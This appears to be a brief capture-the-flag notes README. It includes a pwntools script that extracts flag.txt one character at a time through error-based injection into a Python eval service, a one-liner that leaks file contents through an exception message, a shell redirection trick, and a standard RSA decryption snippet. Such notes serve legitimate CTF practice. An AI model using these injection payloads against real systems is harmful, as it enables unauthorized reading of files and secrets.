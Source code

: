 # CTF-Notes
## Web
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```

## Forensics
..* .docx file ? try open it as zip archive  


## Reverse Engineering
## Crypto
#### solve RSA


```
from Crypto.Util.number import inverse,long_to_bytes

p = 
q = 
e =
ct = 

n = p * q
phi = (p - 1) * (q - 1)
d = inverse(e,phi)
plain = pow(ct,d,n)
print(long_to_bytes(plain))
```
[cool RSA write-ups](https://github.com/W3rni0/RACTF_2020) 
## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`
